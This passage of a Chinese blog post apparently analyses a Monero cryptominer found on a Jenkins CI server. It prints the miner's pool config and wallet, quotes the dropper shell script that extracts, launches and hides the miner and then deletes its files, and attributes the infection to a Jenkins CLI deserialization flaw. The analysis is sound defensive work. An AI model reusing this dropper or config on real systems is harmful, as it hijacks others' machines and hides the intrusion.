 ``` json
{
"url" : "stratum+tcp://xmr.crypto-pool.fr:3333",
"user" :
 "43ZQzwdYHC9ebXxZhJuwkH5jvmfEBCEjkd1PvqxacrJaEDQFyNuxJhcib8MsJRgFnbATB6rpBEzq8EKqRqUbjyNy3opCS4k",
"pass" : "x"
}
```

**stratum+tcp** 协议引发了我的好奇心，经过调查，这居然是一个叫做**门罗币的加密虚拟币**的**矿池**协议：

> **门罗币****XMR**一种使用CryptoNote协议的一个虚拟币币种，其并不是比特币的一个分支。CryptoNote在2012年已经开发出来，当年已有Bytecoin使用CrytoNote技术，XMR是在2014年开发出来，可以预见CryptoNote技术已经非常成熟，该技术通过数字环签名提供更好的匿名性。目前国内对该币种匿名技术宣传较少，国外知名度较高。Monero词语是引自于世界语，在世界语中的含义表示为货币。
>
> 而**矿池**则是是比特币(Bitcoin)等P2P密码学虚拟货币开采所必须的基础设施，一般是对外开放的团队开采服务器，其存在意义为提升比特币开采稳定性，使矿工薪酬趋于稳定。
>
> 假设100万人参与比特币挖矿，全网400P算力，其中90%的矿工为1P(1000T)以下的算力，如果投入一台1T矿机，将占全网算力的40万分之1，理论上平均每40万个10分钟能挖到一个区块，也就是7.6年才能挖到一个区块然后一次性拿到50个比特币。那么，假如我再找9个拥有1T算力矿机的矿工，达成协定，我们总共10个人，其中任何一个人挖到区块，都按照每人的算力占比来进行平分，那么我们就是一个整体，总共10T算力，那么平均0.76年即可挖到一个区块，然后算下来到我们手上的就是0.76年开采到5个比特币，如果组织100人、1000人、1万人甚至10万人呢？如果是10万人，那么平均100分钟就能挖到1个区块，作为团队的一份子，我的收入将会趋于稳定。这就是矿池的基本原理，即大家组队进行比特币开采，可以参考彩票中的合买。

当然，以上只是对矿池的基本原理和性质进行简单的描述，实际情况会非常复杂。矿池是一个全自动的开采平台，即矿机接入矿池——提供算力——获得收益。

抱着“大胆假设，小心求证”的心态，我们找到了配置文件中这家叫做crypyto-pool的网站[https://monero.crypto-pool.fr/](https://monero.crypto-pool.fr/)它是一个著名门罗币的矿池网站。而通过配置文件的用户名，我们看到了这个程序的挖矿记录和转账记录。根据6月份的交易数据以及对应牌价，截止作者发稿时，该程序已 为作者赚取了 1165.64 美元的收益。

而接下来的代码间接暴露了证据：

**代码片段 3**:

```bash
dd if=/tmp/conn skip=7664 bs=1 of=/tmp/donns

chmod +x /tmp/donns
nohup /tmp/donns -B -c /tmp/config.conf \>/dev/null 2\>&1 &
rm -rf /tmp/config.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/bonn.sh
```

这段脚本不光执行了程序，并且删除了执行后的相关文件记录。确认了是挖矿进程之后，我们果断的停止了进程，并且把对应的环境制作成了临时镜像以便做进一步分析。

以上，我们仅仅通过一系列调查证明了 donns 进程具有挖门罗币的功能。然而，我们很难知道它是否做了别的事情。比如把 CI
上的关键信息发送出去，后果则不堪设想……

## 那么问题来了，这段脚本是如何进入CI的

通过网上搜索相关线索（[https://groups.google.com/forum/\#!topic/jenkinsci-advisories/sN9S0x78kMU](https://groups.google.com/forum/#!topic/jenkinsci-advisories/sN9S0x78kMU)），这个脚本最早是2016年11月11日发现的，最早是一个叫做kwwoker32的进程，脚本很相似。从脚本来看，经历了conns, bonns两代的演化之后，这应该是第三代挖矿脚本了。从脚本来看，donns和bonns和conns是竞争关系，因此执行之前要把它俩先强制终止并清除。它们所采用的应该是同一个漏洞。

这个漏洞存在于Jenkins CLI，这是一个用Java编写的命令行工具，可以通过命令行远程操作Jenkins来执行很多操作。在这个例子中，攻击者通过这个工具向Jenkins服务器传送一个序列化的对象连接到攻击者的LDAP服务器，以此绕过Jenkins自身保护机制并且远程执行代码。
